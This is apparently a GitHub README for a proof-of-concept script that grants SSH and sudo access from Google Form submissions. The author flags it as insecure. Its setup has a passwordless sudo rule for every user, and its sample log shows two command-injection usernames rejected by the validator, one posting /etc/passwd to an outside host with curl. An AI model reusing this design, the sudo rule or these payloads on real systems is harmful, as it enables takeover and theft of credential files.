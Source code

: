 # Gdocs User Manager
This script manages ssh user and sudo access via... GOOGLE DOCS!

The way this works is simple:

A user logs into their work gmail account. Once logged in, they can see a Google Form, which allows them to input the following three things for themselves:
  * full name
  * ssh username
  * ssh public key

![](http://i.imgur.com/PCLv7Hg.png)

After they submit their form, their information is automatically added to a spreadsheet

![](http://i.imgur.com/4xM9E4b.png)

Now all we need is a backend service that scrapes and verifies this spreadsheet :-)

An administer can also edit the spreadsheet and toggle some additional "hidden flags" that do things like purge a user from the system.

This is just a proof-of-concept and has security issues. Please don't use it for anything other than for fun.

For production you should use ldap + kerberos. That's the industry standard for managing ssh access.

## Why in the world...
This project was the result of brainstorming ideas for solving the following problems:

1. Allow an authenticated user to self-manage their ssh-keys
2. Allow someone with NO shell/linux experience to administer the users in the spreadsheet.
3. Easily control access to those engineers
4. Be near real-time (less than 5 minutes from update to rollout)
5. Zero time from engineers spent rolling out keys

Google Forms/Sheets is actually a good choice for this project. Everyone knows how it works. It has incredible uptime and uses secure endpoints. It also has a well-documented API and allows for a staggering 10 million requests a day _for free_. That means you can have almost 7000 hosts update every minute using a free api key!

It also has some additional features that are useful for this task: a user can only submit data once. And once submitted, they can edit it at their on leisure. They don't have access to the backend spreadsheet, just their "answer".

The Form allowed a simple way for everyone in the organization to update (read: self-service) their own ssh-key key. It forced authentication and was about as easy to use as it gets.

The backend to Google Forms is actually just a spreadsheet that's easy to read and parse. Write access to the spreadsheet can be "shared" with someone else at the company and they can manage it without needing any linux experience.

## Requirements
You'll need the following things:
1. The script in this repo
2. The install script.
3. A google API user w/ credentials

## Let's get started
### Create the Google Form
You'll need to create a form that has the following text boxes. These are case sensitive so please make sure they match exactly. Or you can change the lines in the script to be your custom field.

* ```SSH username```
* ```SSH Public Key```

On the document, make sure you check only the following two boxes. Note, in the picture you don't see some of the boxes because the form wasn't made with a business account:
* Require <ORGANIZATION> login to view this form
* Automatically collect respondent's <ORGANIZATION username
* Only allow one response per person (requires login)
* Allow responders to edit responses after submitting

Name your document and save the name, you'll use it later on when setting environment variables.

Lastly, you'll want to edit the "answers" spreadsheet. Add a column that says "purge". If you put an ```x``` in this field, then the user will automatically be purged from the system even if they update their key.

### Create a Google API key
While logged into your organizational email, you'll need to create an API key and then activate google drive API
1. Log into the gmail account that you want to use with this service
2. Go to the Google Developer's Console: https://code.google.com/apis/console
3. Click on "Credentials" under "APIs & auth"
4. Click "Create new Client ID"

That will download your credentials file, which has the necessary information to make API calls out to Google. Download that file and keep it safe.

After that you'll need to authorize the google drive API
1. Click on "APIs" under "APIs & auth"
2. Search for "Drive API" and click on it
3. Click "activate"

### Share the Form backend with your API email
This step is important or else you won't be able to see any documents when you make API calls.

Find the Google spreadsheet that's created automatically by your Form. The title of this document is what you'll set the environment variable ```DOCUMENT_TITLE``` to on your system.

While you have the document open, share it with the email address that's provided in your credentials file. Again, this step is important! Or else you'll look for documents with the API and won't find any!

You'll see that your backend form is a really simple excel spreadsheet:

### Install the packages
If you're running ubuntu you can simply execute the install script:
```bash
$ ./install_on_ubuntu
...
```

### Set your sudoers file to allow sudo without password
Create a new file called ```/etc/sudoers.d/usermanager and add the following line:
```
%sudo ALL=NOPASSWD: ALL
```

This will allow users to who part of the "sudo" group to sudo without passwords. This isn't strictly necessary but the script automatically adds users to this group.

### Set your environment variables
This script uses the environment variable ```CREDENTIALS_FILE```. This variable must be a full-path to your credentials file that you got back from Google.

The second variable you'll need to set is ```DOCUMENT_TITLE```. This is the the name of the spreadsheet that serves as the "backend" to your Google form. For example ```SSH Access Request```.

## Phew. All set up.
Take a deep breath and hold on to you butts. The script should execute without any problems. It will add users if they are specified in the document.

```
[WARNING] Adding stephen to system
[WARNING] Adding Alice to system
[WARNING] Adding Frank to system
```

If somebody used a non-safe username, then you'll see errors like this:
```
[WARNING] Invalid user "; touch /tmp/pwned". Username must contain letters only!
[WARNING] Invalid user "; curl -XPOST http://mydomain.com -d@/etc/passwd". Username must contain letters only!
```

# Last words and warnings
I want to reiterate again that this was just a fun experiment and not fit for production. I do think there's value to using forms such as this and the API to scrape and do things with data, but not for ssh user access.

There are a few security issues:
1. Almost without exception should you never shell-out with user-supplied data.
2. There's no granularity. This grants sudo access to everyone who can submit a form
3. I did my best to sanitize the user inputs, but I don't trust it. Does anyone know of a better python library for this?

